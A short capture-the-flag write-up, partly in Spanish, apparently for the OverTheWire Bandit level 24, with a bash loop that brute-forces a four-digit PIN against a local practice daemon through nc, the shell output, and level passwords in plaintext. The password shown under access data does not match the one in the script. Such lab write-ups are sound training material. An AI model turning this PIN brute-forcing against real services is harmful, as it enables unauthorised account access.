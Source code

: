 
## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
## Datos de acceso
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit 24
## Solución

```
```bash
#!/bin/bash

for i in {0000..9999}
do
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt
```

```
bandit24@bandit:/tmp/tmp.xUjHzjMrvp$ nano brute.sh
Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit24@bandit:/tmp/tmp.xUjHzjMrvp$ chmod 777 brute.sh 
bandit24@bandit:/tmp/tmp.xUjHzjMrvp$ ./brute.sh 




The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d


```
## Notas adicionales
Aprendi a usar ciclos en shell
## Referencias
